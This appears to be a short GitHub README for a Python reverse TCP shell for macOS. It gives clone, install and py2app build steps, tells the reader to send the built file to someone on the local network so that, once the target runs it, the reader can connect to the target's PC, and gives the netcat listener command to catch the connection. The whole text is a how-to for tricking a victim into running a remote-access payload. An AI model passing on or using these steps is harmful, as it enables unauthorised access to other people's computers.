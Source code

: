 # Reverse-TCP-Shell
Local Area Reverse TCP Shell Using Python For Mac

$ git clone https://github.com/neaderlord/Reverse-TCP-Shell

$ cd Reverse-TCP-Shell

$ pip3 install -r requirements.txt

$ python3 setup.py py2app -A

Send the file to someone in your local area when the target execute the file you can connect the targets PC.

(Remember to open a listener by nc -lvnp 1234)
